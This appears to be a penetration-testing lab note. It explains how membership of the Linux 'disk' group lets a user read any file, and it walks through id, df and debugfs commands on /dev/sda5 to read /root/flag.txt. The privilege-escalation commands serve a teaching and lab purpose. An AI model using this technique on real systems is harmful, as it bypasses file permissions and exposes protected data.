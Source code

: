# Disk

The **`disk`** group in Linux is a **privileged system group** intended to grant **access to** **raw disk devices**, like `/dev/sda`, `/dev/sdb`, etc. It allows users to perform low-level operations on storage devices, such as partitioning, formatting, mounting/unmounting, etc.&#x20;

Membership in the `disk` group is highly sensitive — users with this access can **read or modify any data on the system**, bypassing file permissions entirely.

```bash
# Confirm group membership
ian@DANTE-NIX07:~$ id
uid=1001(ian) gid=1001(ian) groups=1001(ian),6(disk)

# Identify the root fine system (/)
ian@DANTE-NIX07:~$ df -h
Filesystem      Size  Used Avail Use% Mounted on
/dev/sda5        14G  7.9G  5.2G  61% /

# Open the block service
ian@DANTE-NIX07:~$ debugfs /dev/sda5
debugfs 1.45.5 (07-Jan-2020)
No entry for terminal type "xtrem";
using dumb terminal settings.

# Failed attempt to create a directory
debugfs:  mkdir test
mkdir: Filesystem opened read/only

# Read a root file 
debugfs:  cat /root/flag.txt
```
